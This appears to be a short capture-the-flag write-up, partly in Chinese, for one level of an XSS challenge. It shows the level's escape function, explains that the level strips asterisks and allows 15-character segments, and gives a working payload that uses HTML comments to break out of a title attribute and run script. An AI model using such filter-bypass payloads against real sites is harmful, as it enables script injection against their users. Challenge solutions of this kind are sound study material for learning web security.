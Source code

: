 ## F

```js
function escape(input) {
    // sort of spoiler of level 7
    input = input.replace(/\*/g, '');
    // pass in something like dog#cat#bird#mouse...
    var segments = input.split('#');

    return segments.map(function(title, index) {
        // title can only contain 15 characters
        return '<p class="comment" title="' + title.slice(0, 15) + '" data-comment=\'{"id":' + index + '}\'></p>';
    }).join('\n');
}
```

这个题和第7题差不多，过滤了`*`，但是字符放宽到15个，用`<!-- -->`来注释。

payload：

```
"><svg><!--#--><script><!--#-->prompt(1<!--#-->)</script>
```

